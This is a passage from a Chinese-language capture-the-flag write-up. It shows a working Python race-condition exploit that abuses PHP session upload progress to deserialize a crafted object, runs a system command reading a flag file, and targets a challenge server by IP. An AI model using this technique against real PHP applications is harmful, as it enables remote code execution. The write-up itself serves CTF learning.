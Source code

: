 ```php

echo '|'.serialize($a);
```

反序列化的时候需要利用到 session\_upload\_progress, 但是提交的时候发现并没有执行对应的命令

估计是 `session.upload_progress.cleanup` 被设置成了 `On`, session 清空导致来不及反序列化

解决方法就是利用条件竞争, 在 post 表单的同时携带相同 PHPSESSID 的 cookie 去访问这个 webshell

脚本如下

```python
import threading
import requests

url = 'http://43.143.7.127:28843/Rea1web3he11.php'
flag = 'aaa'

cmd = "system('cat /secret/flag');"

payload = r'|O:8:"webshell":1:{s:7:"caution";O:9:"execution":1:{s:3:"cmd";s:' + str(len(cmd)) + ':"' + cmd + '";}}'

def upload():
    files = [
        ('file', ('xx.txt', 'xxx'*10240)),
    ]
    data = {'PHP_SESSION_UPLOAD_PROGRESS': payload}

    while True:
        res = requests.post(url, data=data, files=files, cookies={'PHPSESSID': flag})
        print('upload',res.text)

def write():
    while True:
        res = requests.get(url, cookies={'PHPSESSID': flag})
        print('write',res.text)

for i in range(10):
    t1 = threading.Thread(target=upload)
    t2 = threading.Thread(target=write)
    t1.start()
    t2.start()
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210251818510.png)

### pop子和pipi美

这题也挺谜语的... 先要传参番号才会显示源码

```
http://43.143.7.97:28778/?pop_EP=ep683045
```
